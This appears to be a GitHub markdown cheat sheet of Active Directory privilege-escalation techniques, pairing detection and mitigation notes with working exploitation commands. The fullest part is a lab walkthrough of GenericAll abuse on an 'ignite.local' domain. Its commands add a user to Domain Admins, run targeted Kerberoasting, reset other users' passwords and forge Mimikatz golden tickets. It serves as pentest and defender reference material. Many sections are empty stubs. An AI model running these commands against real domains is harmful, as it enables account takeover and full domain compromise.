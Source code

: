 <details>
<summary> DACL/ACL-Based Escalation (GenericAll / WriteDACL / WriteProperty)</summary>
 <br> 
In Active Directory (AD), a DACL (Discretionary Access Control List) is a component of an object’s security descriptor. It specifies which users or groups are allowed (or denied) access to the object and what actions they are permitted to perform. It essentially controls who can do what to an object. Such as a user account, computer, group, or any other directory object.
If you (or a compromised account) have ACL rights like GenericAll, WriteDACL, or WriteProperty over another AD object (user, group, OU, computer), you can modify permissions or credentials to escalate privileges 
Generic ALL Right
In Active Directory, permissions and privileges define what actions an entity (user, group, or computer) can perform on another object. The “Generic ALL” privilege is one of the most powerful in AD because it grants complete control over the target object. This means that the user or group with this privilege can:

Modify any attribute of the object
Reset passwords
Add or remove members from groups
Delegate further control to other users
Delete the object altogether
Because of its extensive reach, an attacker who gains “Generic ALL” privileges on sensitive objects (like privileged groups or service accounts) can essentially gain domain dominance.

Exploiting “Generic ALL” Privilege
Here’s how an attacker can leverage the “Generic ALL” privilege to compromise Active Directory:

Identifying Targets with “Generic ALL” Privilege
The first step is to identify objects where the attacker has this privilege. This can be done using tools like BloodHound or PowerView, which map out Active Directory and show privilege relationships. Once identified, the attacker can choose their target based on the potential impact (e.g., a Domain Admin account).
Resetting Passwords
If the “Generic ALL” privilege is applied to a user account, the attacker can reset the account’s password. This is particularly devastating if the account is for a privileged user, such as a Domain Administrator. After resetting the password, the attacker can log in as that user and gain full control over the domain.
Modifying Group Membership
If the “Generic ALL” privilege is applied to a group, the attacker can add themselves to a high-privilege group, like Domain Admins or Enterprise Admins. This grants them the privileges of those groups, effectively giving them control over the entire domain.
Abusing Delegated Control
With the “Generic ALL” privilege, the attacker can delegate control of the target object to another user or group. This allows them to grant privileges to themselves or other malicious users without raising suspicion immediately.
Deleting or Modifying Objects
In extreme cases, an attacker with “Generic ALL” can delete critical objects, such as service accounts or privileged users, causing operational disruptions or creating avenues for further exploitation.
🔍 Detection

Use BloodHound to detect privileged edges (WriteDacl, GenericAll).

Run PowerView:

powershell

    Get-ObjectAcl -SamAccountName TargetUser -ResolveGUIDs
Filter for rights: GenericAll, WriteDacl, etc. 

⚙️ Exploitation
Use PowerView/Powermad:

powershell

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "LowPrivUser" -Rights All
Then add yourself to Domain Admins or reset passwords.
Exploitation Phase I – User Own Generic All Right for Group
Compromised User: Komal

Target Account: Domain Admin Group

Now that the lab is set up, let’s walk through how an attacker (acting as Komal) can abuse the Generic ALL privilege.

Assuming the Red Teamer knows the credential for Komal Users as a Standard Domain Users and would like to enumerate the other Domain users & Admin members with the help of “net-rpc” Samba command line Utility.

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
After executing above command its has been concluded that the Administrator users is only the single member of the Admin group. Unfortunately, the tester is doesn’t know the credentials of administrator.



Bloodhound -Hunting for Weak Permission
Use BloodHound to Confirm Privileges: You can use BloodHound to verify that Komal has the Generic ALL right on the Domain Admins group.

bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All
Generic ALL Active Directory Abuse

From the graphical representation of Bloodhound, the tester would like to identify the outbound object control for selected user where the first degree of object control value is equal to 1.



Thus it has shown the Komal User has Generic ALL privilege to Domain Admin group and provided steps for exploitation to be proceed.

Generic ALL Active Directory Abuse

Method for Exploitation – Account Manipulation (T1098)
1. Linux Net RPC – Samba
The tester can abuse this permission by Komal User into Domain Admin group and list the domain admin members to ensure that Komal Users becomes Domain Admin.

net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8


2. Linux Bloody AD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"


Thus, from the user property we can see Komal user has become a member of domain admin.

Generic ALL Active Directory Abuse

3. Windows Net command
net group "domain admins" komal /add /domain


Exploitation Phase II – User’s own generic Right for another user
To set up a lab environment where the user Nishant has Generic ALL rights over the user Vipin, you’ll need to follow several steps. This process involves configuring Active Directory (AD) permissions so that Nishant can manipulate attributes of the Vipin account.

Step 1: Create Two AD user accounts
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
                

Step 2: Assign Generic ALL Permissions
Open Active Directory Users and Computers.
Navigate to the Vipin user account.
Right-click on Vipin, select Properties.
                Generic ALL Active Directory Abuse

Go to the Security tab.
Click Advanced and then Add.
                

In the “Enter the object name to select” box, type Nishant and click Check Names.
After adding Nishant, set the permissions:
Check Generic All in the permissions list (you may need to select Full Control to encompass all rights).
                

Ensure Applies to is set to This object only.
                Generic ALL Active Directory Abuse

Bloodhound -Hunting for Weak Permissions
Hunting for First Degree objection Control for Nishant Users as we did in previous steps

bloodhound-python -u nishant -p Password@1 -ns 192.168.1.8 -d ignite.local -c All


From the graph, it can be observed that the Nishant user owns generic all privileges on Vipin user

Generic ALL Active Directory Abuse

Moreover, Bloodhound also helps the pentest to define the possible attack from the user account nishant, this user can perform domain attack such as keroasting and shadow credentials



Multiple Methods for Exploitation
1. T1558.003 – Kerberoasting
1.1  Linux Python Script – TargetedKerberoast
Compromised User: Nishant: Password@123

Target User: Vipin

Kerberoasting is an attack technique that targets service accounts in Active Directory environments, where an attacker with Generic ALL permissions on a user can exploit the ability to request service tickets (TGS). By requesting TGS for service accounts, the attacker can obtain encrypted tickets that include the service account’s password hash. Since these tickets can be extracted and then offline cracked, the attacker can potentially gain access to the service account’s credentials. The attack leverages the fact that service accounts typically have elevated privileges, allowing the attacker to escalate their own access within the network once the password is cracked. This exploitation is particularly effective in environments where weak or easily guessable passwords are used for service accounts.

Cloning the Targeted Kerberoast Tool
To perform this attack, first, clone the targetedKerberoast repository from GitHub using the following command:

git clone https://github.com/ShutdownRepo/targetedKerberoast.git
Generic ALL Active Directory Abuse

./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
As we have seen during the lab setup, the vipin user was added as a domain user account, which does not have any associated SPN. The Python script has modified the attribute of vipin user to set the SPN name and then dump Krbtgs hash that can be brute-forced offline. Moreover, the script performs a clear track step by removing the SPN well live from the user attribute.

This type of attack is ideally best when the attacker is not willing to change the password for the target user <Vipin in our case>, even generic all privilege is enabled for the compromised user. Yes, this step is less noisy than changing the password of any user.



Further, with the help of John the Ripper and a dictionary such as Rock You can help the attacker to brute force the weak password.

Generic ALL Active Directory Abuse

1.2 Windows PowerShell Script-PowerView
To perform Kerberoasting using PowerView on a Windows machine, you can leverage PowerView’s ability to enumerate Active Directory service accounts that have Service Principal Names (SPNs). These SPNs can be requested to obtain service tickets (TGS), which can then be cracked offline to reveal the service account’s credentials. Here’s a brief overview of the steps:

Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1


Cracking TGS hash using Rockyou.txt with the help of Hashcat Tool.

Generic ALL Active Directory Abuse

2.     T1110.001 – Change Password
2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8


2.2 Linux Net RPC – BloodAD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
Generic ALL Active Directory Abuse

2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
Generic ALL Active Directory Abuse

2.4 Windows Net Utility
net user Vipin Password@1234 /domain


2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.localvipin', $SecPassword)
Generic ALL Active Directory Abuse

2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword

🛡️ Mitigation

Audit ACLs on sensitive objects (adminCount=1).

Use BloodHound to regularly review privileged rights.

Limit ACEs granting WriteDACL or GenericAll.
</details>
<details>
<summary>AdminSDHolder Abuse</summary>
 <br>  
The AdminSDHolder object enforces consistent ACLs on protected groups (like Domain Admins). If you can alter its ACL, the change propagates via SDProp to all members 

🔍 Detection
Search for AdminSDHolder ACLs:

powershell

    Get-ADUser -LDAPFilter "(AdminCount=1)" ...
    Get-ACL "AD:CN=AdminSDHolder,CN=System,DC=domain,DC=com"
⚙️ Exploitation

powershell

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,...' -PrincipalSamAccountName attacker -Rights All
You’ll gain long-term privileged membership.

🛡️ Mitigation

Restrict ACL modifications on AdminSDHolder.

Monitor event logs for changes (event IDs 4662, 4670).
</details>
<details>
<summary>Resource-Based Constrained Delegation (RBCD) Abuse</summary>
 <br> 

Control over a computer object plus delegation rights can allow you to impersonate users to services—escalating to SYSTEM or DC-level access via Kerberos ticket forging.

🔍 Detection
Use BloodHound to detect AllowedToDelegateTo paths. Query with:

powershell

    Get-ADComputer -Properties msDS-AllowedToDelegateTo
⚙️ Exploitation
Create a computer account (e.g. attacker$) and set delegation rights:

powershell

    Set-ADComputer target$ -Add @{msDS-AllowedToDelegateTo='attacker$'}
Then issue Kerberos tickets with Rubeus or Impacket.

🛡️ Mitigation

Limit delegation rights.

Audit msDS-AllowedToDelegateTo attributes.

Disable unconstrained delegation unless required.
</details>
<details>
<summary>Shadow Credentials</summary>
 <br> 

If you can write to the msDS-KeyCredentialLink attribute on an object, you can create a "shadow credential" (certificate) to authenticate as them via Kerberos PKINIT without needing passwords 
HADESS

🔍 Detection
Check write permissions on this attribute via BloodHound or PowerView:

powershell

    Get-ACL object | Select-Object rights
⚙️ Exploitation
Use Whisker.exe:

powershell

    Whisker.exe add /target:CompAccount$
Then obtain TGT via certificate-based authentication with Rubeus.

🛡️ Mitigation

Disable unnecessary write access to msDS-KeyCredentialLink.

Monitor certificate enrollment events.

Enforce Windows ≥2016 with Kerberos protections.
</details>
<details>
<summary>SID History Injection</summary>
 <br> 

If you can modify SIDHistory (or have KRBTGT hash), you can inject high-privilege SIDs into your account and forge golden tickets for domain admin access.

🔍 Detection
Check SIDHistory values via ADSI or BloodHound.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:attacker /sid:<DA_SID> 
Forge TGT tickets to escalate.

🛡️ Mitigation

Monitor creation of unusual tickets or SIDHistory changes (Event ID 4720/4732).

Secure KRBTGT hash with frequent password resets.
</details>
<details>
<summary>Trust Exploitation / Foreign Security Principals Abuse</summary>
 <br>
 Trust Exploitation / Foreign Security Principals Abuse

In multi-domain or multi-forest environments, trust misconfigurations allow abused FSP entries from other realms to escalate via cross-domain ACLs.

🔍 Detection
BloodHound shows trust paths and unresolved SIDs.

⚙️ Exploitation
Add FSP SID from trusted domain into a privileged group using ACL editing.

🛡️ Mitigation

Enable SID filtering.

Validate cross-domain ACLs for resolved accounts only.
</details>
<details>
<summary>gMSA Password Disclosure</summary>
 <br>
 gMSA Password Disclosure

If you can read msDS-ManagedPassword, you can retrieve the machine account password of a Group Managed Service Account to impersonate it.

🔍 Detection
Check ACL on gMSA:

powershell

    Get-ADServiceAccount gmsa -Properties msDS-ManagedPassword
ConvertFrom-ADManagedPasswordBlob ...
⚙️ Exploitation
With ReadGMSAPassword rights, extract credentials via PowerShell (ConvertFrom-ADManagedPasswordBlob).

🛡️ Mitigation

Restrict read ACLs for these attributes.

Monitor gMSA password retrieval events.
</details>
<details>
<summary>Golden Ticket Forgery (KRBTGT compromise)</summary>
 <br>
If you can extract KRBTGT NTLM hash (e.g. via DCSync), you can issue valid TGTs for any domain user—including Domain Admins—without contacting KDC.

🔍 Detection
Monitor long-lifetime TGT events (Event ID 4768) or hash extraction attempts.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:Administrator /krbtgt:<hash> /domain:domain.com
Inject ticket with /ptt.

🛡️ Mitigation

Periodically reset KRBTGT twice.

Monitor DCSync and TGT creation anomalies.
</details>
<details>
<summary>Kerberoasting</summary>
<br>
</details>

<details>
<summary>AS-REP Roasting</summary>
<br>
</details>

<details>
<summary>Silver Ticket (Forged TGS)</summary>
<br>
</details>


<details>
<summary>DCSync / Replication Attacks</summary>
<br>
</details>

<details>
<summary>Unconstrained Delegation Abuse</summary>
<br>
</details>

<details>
<summary>Constrained Delegation Abuse</summary>
<br>
</details>





<details>
<summary>DACL/ACL-Based Escalation via DCOM / WMI / RDP</summary>
<br>
</details>

<details>
<summary>Group Policy Preferences (GPP) Passwords</summary>
<br>
</details>


<details>
<summary>Printer Bug / NTLM Relay via Print Spooler</summary>
<br>
</details>

<details>
<summary>Pass-the-Hash</summary>
<br>
</details>

<details>
<summary>Pass-the-Ticket</summary>
<br>
</details>

<details>
<summary>Overpass-the-Hash</summary>
<br>
</details>

<details>
<summary>DCShadow Attack</summary>
<br>
</details>

<details>
<summary>LAPS Password Disclosure</summary>
<br>
</details>

<details>
<summary>Kerberos Key Distribution Center (KDC) Spoofing</summary>
<br>
</details>

<details>
<summary>Certificate Services Abuse (e.g., ESC1–ESC8)</summary>
<br>
</details>
Abusing Certificate Templates or CA permissions can allow low-privilege users to enroll certs for high-risk purposes (e.g. escrow, domain authentication), leading to full domain compromise 

🔍 Detection

Use certipy, bloodhound or certify to enumerate templates and CA ACLs.

Check for templates that allow enrollment to Authenticated Users.

⚙️ Exploitation
Certipy or PowerView:

powershell
Copy
Edit
Certipy find
Certipy enroll attacker -template vulnerableTemplate
Use resulting certificate to authenticate via PKINIT.

🛡️ Mitigation

Secure template ACLs (use principle of least privilege).

Require CA manager approval for templates.

Monitor certificate issuance logs.

